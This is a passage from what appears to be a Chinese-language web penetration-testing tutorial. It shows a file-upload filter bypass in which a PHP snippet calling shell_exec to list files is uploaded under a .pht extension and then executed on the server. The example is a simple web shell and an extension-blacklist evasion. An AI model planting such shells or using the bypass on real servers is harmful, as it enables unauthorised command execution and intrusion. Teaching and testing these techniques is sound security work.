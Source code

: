 1.  我们看到文件已经上传。

1.  现在我们尝试添加我们的 PHP 代码：

```
        <?php
            $output = shell_exec('ls -lart');
            echo "<pre>$output</pre>";
        ?>
```

![](img/0725ad0d-0e6a-42cc-acca-471888d6c322.png)

但是我们的 PHP 仍未被执行。

1.  然而，还有其他文件格式，如`.pht`、`.phtml`、`.phtm`、`.htm`等。让我们尝试`.pht`。

![](img/2a642eab-1083-4d72-a8bb-25bf4b6201d7.png)

我们的文件已经上传。

![](img/259298d1-2bc0-4060-9a5d-6f03c2a172c1.png)

1.  我们浏览文件并看到它已被执行！
